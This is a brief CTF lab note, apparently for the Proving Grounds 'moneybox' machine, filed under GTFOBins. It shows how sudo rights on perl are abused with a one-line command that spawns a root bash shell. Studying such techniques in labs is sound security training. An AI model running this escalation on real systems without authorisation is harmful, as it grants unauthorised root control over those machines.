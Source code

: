 ```yaml
---
layout: default
title: Perl
parent: GTFOBins
nav_order: 1
---
```


# Perl

---

We have sudo privileges for _/usr/bin/perl_

![sudo](../../../../assets/images/ctfs/proving_grounds/moneybox/sudo.png)

![gtfobins](../../../../assets/images/ctfs/proving_grounds/moneybox/gtfobins.png)

Run _perl_ to execute /bin/bash and elevate to a root shell.

```bash
sudo perl -e 'exec "/bin/bash";'
```

![root](../../../../assets/images/ctfs/proving_grounds/moneybox/root.png)
